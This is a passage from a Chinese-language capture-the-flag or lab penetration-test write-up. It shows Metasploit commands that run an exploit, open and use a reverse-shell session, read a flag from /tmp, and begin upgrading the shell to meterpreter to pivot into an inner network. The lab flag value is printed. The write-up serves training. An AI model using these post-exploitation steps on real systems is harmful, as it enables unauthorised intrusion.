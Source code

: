 ![再次查看exp可配置参数列表](img/再次查看exp可配置参数列表.png)

接下进行 getshell，如果攻击成功，查看打开的 reverse shell，进入会话后，发现无命令行交互提示信息，此时我们试一试 Bash 指令，可以发现我们已经打下了第一个靶标，查看其 `/tmp` 目录，成功得到 `flag1`。

```bash
# getshell
$ exlpoit -j

# 如果攻击成功，查看打开的 reverse shell
$ sessions -l

# 进入会话 1
$ sessions -i 1

# 无命令行交互提示信息，试一试 Bash 指令
$ id

# get flag-1
$ ls /tmp
```

```bash
得到flag1:flag-{bmha6cc7d3b-47d8-46dc-b9ba-1dc8a9b74dfe}
# 通过 CTRL-Z 将当前会话放到后台继续执行
```

#### 3.中层网络渗透:攻破靶标 2-4

首先是将已经获得的1号会话即外层主机shell升级为`meterpreter`，说是升级并且执行的命令也是`sessions -u 1`，其实是通过上传名为`post/multi/manage/shell_to_meterpreter`的payload的方式开启更多功能的会话：
